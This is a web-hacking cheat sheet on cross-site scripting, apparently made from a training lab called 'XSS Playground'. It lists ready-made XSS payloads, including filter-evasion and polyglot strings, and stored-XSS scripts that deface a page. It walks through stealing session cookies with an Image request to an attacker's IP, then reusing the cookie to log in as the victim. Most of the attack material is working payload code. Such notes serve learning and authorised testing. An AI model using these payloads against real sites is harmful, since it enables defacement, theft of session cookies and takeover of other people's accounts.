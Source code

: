 # XSS

### Payloads

```javascript
# Standard XSS Payload
<script>alert('XSS');</script>

# Input tag escape
"><script>alert('XSS');</script>

# Escape textarea tag
</textarea><script>alert('XSS');</script>

# Escape Javascript code
';alert('XSS');//

# Bypass filters that strip out malicious words such like "script"
<sscriptcript>alert('XSS');</sscriptcript>

# Polygot payload (Can bypass multiple filters)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS)//>\x3e
```

### Payload List

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}

## Stored XSS

### Defacing HTML Titles

Stored XSS can allow opportunity to deface web applications through various methods. One such method may allow for HTML titles and elements to be changed. In the example below we will be altering the HTML title "XSS playground".

<figure><img src="../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

Firstly, we need to identify the Element ID for the title. Using the browser's inspector we can identify the Element ID where we can see the string:

```
<span id="thm-title">XSS Playground"</span>
```

&#x20;As shown in the browser inspector:

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>



The following payload can be used to alter the title. This payload can be inserted into the comment section on the web application.&#x20;

```
<script>document.getElementById('thm-title').innerHTML="Defaced";</script>
```

After the payload has been inserted we can see where the HTML title has now been changed.

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Payloads for changing Element ID

```
<script>document.getElementById('ID').innerHTML="Defaced";</script>
<script>document.querySelector('#ID').textContent = 'Defaced'</script>
```

### Cookie Stealing

Cookie stealing can be performed via Reflected and Stored XSS. With Stored XSS anyone who visits the affected web page can have their cookie sent to an adversary. This cookie can then be used to potentially log into the application as the victims user account.

The script linked below is used to set up a HTTP server on the attackers machine which will catch cookies from an unsuspecting users browser session when they active the stored XSS.

Script: [https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py](https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py)\


After the script has been downloaded alter the variables shown below to point back to the attacking system and then run the script with Python.

<figure><img src="../../.gitbook/assets/image (4) (1) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

After the script is setup and running the attacker injects the Stored XSS payload as shown below onto the vulnerable web page.

```
<script>var i=new Image;i.src="http://<IP>/?"+document.cookie;</script>
```

When the victim nexts visits the affected web page their cookie will be sent to the attacker.

<figure><img src="../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Where the script receives the cookie:

<figure><img src="../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

The cookie is then placed into the attackers browser session.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After a page refresh by the adversary we see they are now logged in as the victim' s user account.

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Reflected XSS

Reflected XSS "reflects" the injected script back to the victims browser through various methods such as search functions, forms and as part of script contained within a URL.

Simple payload for proof of concept:

```
<script>alert('Hello')</script>
```

The page shown below reflects the search query into the URL of the web application. Using the payload shown above we can see how this is reflected back on the web page.

<figure><img src="../../.gitbook/assets/image (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

From above we can also see how this affects the URL for the web page.

```
http://<IP>/reflected?keyword=%3Cscript%3Ealert%28%27Hello%27%29%3C%2Fscript%3E
```

### Grabbing machine IP

```
<script>alert(window.location.hostname)</script>
```

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>



## Further Reading

GitHub: [https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
